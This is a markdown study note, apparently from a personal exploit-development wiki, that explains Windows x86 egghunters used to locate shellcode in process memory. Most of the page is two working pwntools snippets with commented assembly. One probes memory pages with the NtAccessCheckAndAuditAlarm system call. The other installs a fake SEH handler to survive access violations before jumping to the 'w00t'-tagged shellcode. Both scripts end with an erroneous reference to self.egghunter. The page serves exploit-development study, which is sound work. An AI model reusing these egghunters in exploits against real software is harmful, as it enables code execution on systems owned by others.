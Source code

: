 ```yaml
---
title: Egghunters
tags:
  - shellcode
  - egghunter
  - egghunters
  - windows
  - x86
  - assembly
  - seh
---
```


An **egghunter** is a short program in assembly that we can deliver with our
shellcode to reliably gain code execution if we don't know where our shellcode
will land in process memory upon delivery. Using a particular sentinel value as
a preamble to our shellcode, we can search through each segment of memory to
look for the beginning of our shellcode.

To avoid crashing the program when we encounter access violations for segments
of memory that aren't `R-X`, we can use the `NtAccessCheckAndAuditAlarm` system
call to check if we can access a particular segment. If we can't we ignore and
continue - otherwise we search for our shellcode. Here's some example **Python**
code demonstrating this technique:

```python
from pwn import *

egghunter = (
	# We use the edx register as a memory page counter
	"							 "
	"	loop_inc_page:			 "
	# Go to the last address in the memory page
	"		or dx, 0x0fff		;"
	"	loop_inc_one:			 "
	# Increase the memory counter by one
	"		inc edx				;"
	"	loop_check:				 "
	# Save the edx register which holds our memory
	# address on the stack
	"		push edx			;"
	# Push the negative value of the system
	# call number
	"		mov eax, 0xfffffe3a	;"
	# Initialize the call to NtAccessCheckAndAuditAlarm
	"		neg eax				;"
	# Perform the system call
	"		int 0x2e			;"
	# Check for access violation, 0xc0000005
	# (ACCESS_VIOLATION)
	"		cmp al,05			;"
	# Restore the edx register to check
	# later for our egg
	"		pop edx				;"
	"	loop_check_valid:		 "
	# If access violation encountered, go to n
	# ext page
	"		je loop_inc_page	;"
	"	is_egg:					 "
	# Load egg (w00t in this example) into
	# the eax register
	"		mov eax, 0x74303077	;"
	# Initializes pointer with current checked
	# address
	"		mov edi, edx		;"
	# Compare eax with doubleword at edi and
	# set status flags
	"		scasd				;"
	# No match, we will increase our memory
	# counter by one
	"		jnz loop_inc_one	;"
	# First part of the egg detected, check for
	# the second part
	"		scasd				;"
	# No match, we found just a location
	# with half an egg
	"		jnz loop_inc_one	;"
	"	matched:				 "
	# The edi register points to the first
	# byte of our buffer, we can jump to it
	"		jmp edi				;"
)

egghunter = flat([b"\x90" * 8, asm(self.egghunter, arch="i386")])
```

## Using SEH

We can create a fake **Structured Exception Handler (SEH)** structure for our
egghunter that can capture our access violations and recover without releasing
control of the program. The Python code provided below demonstrates this:

```python
from pwn import *

egghunter = (
	"	start: 									 "
	# jump to a negative call to dynamically
	# obtain egghunter position
	"		jmp get_seh_address 				;"
	"	build_exception_record: 				 "
	# pop the address of the exception_handler
	# into ecx
	"		pop ecx 							;"
	# mov signature into eax
	"		mov eax, 0x74303077 				;"
	# push Handler of the
	# _EXCEPTION_REGISTRATION_RECORD structure
	"		push ecx 							;"
	# push Next of the
	# _EXCEPTION_REGISTRATION_RECORD structure
	"		push 0xffffffff 					;"
	# null out ebx
	"		xor ebx, ebx 						;"
	# overwrite ExceptionList in the TEB with a pointer
	# to our new _EXCEPTION_REGISTRATION_RECORD structure
	"		mov dword ptr fs:[ebx], esp 		;"
	# subtract 0x04 from the pointer
	# to exception_handler
	"		sub ecx, 0x04 						;"
	# add 0x04 to ebx
	"		add ebx, 0x04 						;"
	# overwrite the StackBase in the TEB
	"		mov dword ptr fs:[ebx], ecx 		;"
	"	is_egg: 								 "
	# push 0x02
	"		push 0x02 							;"
	# pop the value into ecx which will act
	# as a counter
	"		pop ecx 							;"
	# mov memory address into edi
	"		mov edi, ebx 						;"
	# check for our signature, if the page is invalid we
	# trigger an exception and jump to our exception_handler function
	"		repe scasd 							;"
	# if we didn't find signature, increase ebx
	# and repeat
	"		jnz loop_inc_one 					;"
	# we found our signature and will jump to it
	"		jmp edi 							;"
	"	loop_inc_page: 							 "
	# if page is invalid the exception_handler will
	# update eip to point here and we move to next page
	"		or bx, 0xfff 						;"
	"	loop_inc_one: 							 "
	# increase ebx by one byte
	"		inc ebx 							;"
	# check for signature again
	"		jmp is_egg 							;"
	"	get_seh_address: 						 "
	# call to a higher address to avoid null bytes & push
	# return to obtain egghunter position
	"		call build_exception_record 		;"
	# push 0x0c onto the stack
	"		push 0x0c 							;"
	# pop the value into ecx
	"		pop ecx 							;"
	# mov into eax the pointer to the CONTEXT
	# structure for our exception
	"		mov eax, [esp+ecx] 					;"
	# mov 0xb8 into ecx which will act as an
	# offset to the eip
	"		mov cl, 0xb8						;"
	# increase the value of eip by 0x06 in our CONTEXT
	# so it points to the "or bx, 0xfff" instruction
	# to increase the memory page
	"		add dword ptr ds:[eax+ecx], 0x06	;"
	# save return value into eax
	"		pop eax 							;"
	# increase esp to clean the stack for our call
	"		add esp, 0x10 						;"
	# push return value back into the stack
	"		push eax 							;"
	# null out eax to simulate
	# ExceptionContinueExecution return
	"		xor eax, eax 						;"
	# return
	"		ret 								;"
)

egghunter = flat([b"\x90" * 8, asm(self.egghunter, arch="i386")])
```

## Related pages

- [[seh-overflows|SEH overflows]]
